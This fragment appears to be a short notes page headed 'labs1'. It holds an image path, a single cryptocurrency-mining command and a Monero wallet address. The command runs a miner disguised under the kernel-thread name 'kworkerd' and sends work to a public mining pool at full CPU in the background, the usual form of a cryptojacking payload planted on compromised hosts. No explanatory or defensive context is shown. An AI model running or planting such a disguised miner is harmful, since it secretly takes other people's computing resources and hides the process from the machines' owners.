 # labs1

kworkerd -a cryptonight -o stratum+tcp://pool.minerxmr.com:555 -u XXXXX -p x -B -S --donate-level=1 --max-cpu-usage=100 -t 2 

45QPzpq3Mm2Nyudyoxmtwi1eZ6SKB35ZKa4tBzc9NU4oRnwyVmT3RXtivartXv9KS56qP5bFYFMULV9NwRstMbUg7seBTWg

